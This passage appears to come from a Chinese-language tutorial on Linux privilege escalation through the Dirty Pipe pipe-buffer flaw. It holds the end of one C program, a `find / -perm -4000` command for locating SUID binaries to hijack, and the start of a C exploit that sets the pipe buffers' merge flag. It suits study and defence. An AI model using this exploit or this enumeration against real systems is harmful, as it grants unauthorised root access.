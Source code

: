       137.         if ((size_t)nbytes < data_size) {
    
      138.                 fprintf(stderr, "short write\n");
    
      139.                 return EXIT_FAILURE;
    
      140.         }
    
      141.         return EXIT_SUCCESS;
    
      142. }
    
    
    

![](https://gitee.com/fuli009/images/raw/master/public/20230714175316.png)

![](https://gitee.com/fuli009/images/raw/master/public/20230714175317.png)

  * 通过劫持拥有 root 权限的 SUID 进程，进行提权。

    * SUID:允许用户执行的文件以该文件的拥有者身份执行。

    
          1. find / -perm -4000 2>/dev/null   //搜索具有suid权限的文件
    
    
    

![](https://gitee.com/fuli009/images/raw/master/public/20230714175318.png)

![](https://gitee.com/fuli009/images/raw/master/public/20230714175319.png)

    
          1. #define _GNU_SOURCE
    
      2. #include <unistd.h>
    
      3. #include <fcntl.h>
    
      4. #include <stdio.h>
    
      5. #include <stdlib.h>
    
      6. #include <string.h>
    
      7. #include <sys/stat.h>
    
      8. #include <sys/user.h>
    
      9.   10. #ifndef PAGE_SIZE
    
      11. #define PAGE_SIZE 4096
    
      12. #endif 
    
      13.   14. /**
    
      15.  * Create a pipe where all "bufs" on the pipe_inode_info ring have the
    
      16.  * PIPE_BUF_FLAG_CAN_MERGE flag set.
    
      17.  */
    
      18. static void prepare_pipe(int p[2])
    